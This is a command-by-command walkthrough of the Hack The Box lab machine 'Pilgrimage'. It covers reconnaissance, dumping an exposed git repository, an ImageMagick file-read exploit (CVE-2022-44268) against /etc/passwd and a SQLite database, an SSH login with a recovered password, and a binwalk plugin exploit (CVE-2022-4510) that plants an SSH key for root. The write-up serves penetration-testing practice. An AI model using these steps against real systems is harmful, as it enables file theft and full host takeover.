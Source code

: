 # 🛐 HTB: Pilgrimage

## 📡 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.219
nmap -p 22,80 -sCV 10.10.11.219
nmap -p 22,80 -sCV pilgrimage.htb
```

### Add to `/etc/hosts`

```bash
echo "10.10.11.219 pilgrimage.htb" | sudo tee -a /etc/hosts
```

### Directory and subdomain fuzzing

```bash
ffuf -u http://pilgrimage.htb -H "Host: FUZZ.pilgrimage.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac
feroxbuster -u http://pilgrimage.htb -x php
```

## 📥 Git Dump / Source Discovery

```bash
pipx install git-dumper
git-dumper http://pilgrimage.htb .git-dump
```

## 🧙 ImageMagick File Read — CVE-2022-44268

### Manual image with malicious metadata

```bash
pngcrush -text a "profile" "/etc/passwd" input.png
mv pngout.png malicious.png
```

### Identify output

```bash
identify -verbose shrunked_file.png
```

### Extract raw data from profile

```bash
identify -verbose shrunked.png | grep -Pv "^( |Image)" | xxd -r -p > outputfile
```

### Python POC

```bash
python CVE-2022-44268.py --image input.png --file-to-read /etc/passwd --output malicious.png
python CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/<filename>.png
```

## 🧬 SQLite Extraction

```bash
sqlite3 pilgrimage.sqlite
.tables
.schema users
SELECT * FROM users;
```

## 🔐 Initial Shell as emily

```bash
sshpass -p abigchonkyboi123 ssh emily@pilgrimage.htb
```

## 🔎 Enumeration (Local)

```bash
ps auxww
sudo -l
find / -perm -4000 -user root 2>/dev/null
```

### Test `inotifywait`

```bash
inotifywait -m -e create /dev/shm
echo "test" > /dev/shm/test.txt
```

## 🐚 Root PrivEsc — Binwalk Plugin Abuse (CVE-2022-4510)

### Check version

```bash
binwalk -h
```

### Create plugin image exploit (SSH via `authorized_keys` overwrite)

```bash
python walkingpath.py ssh exploit.png ~/keys/ed25519_gen.pub
```

### Upload it into monitored folder

```bash
scp binwalk_exploit.png emily@pilgrimage.htb:/var/www/pilgrimage.htb/shrunk/
```

### Get root shell

```bash
ssh -i ~/keys/ed25519_gen root@pilgrimage.htb
```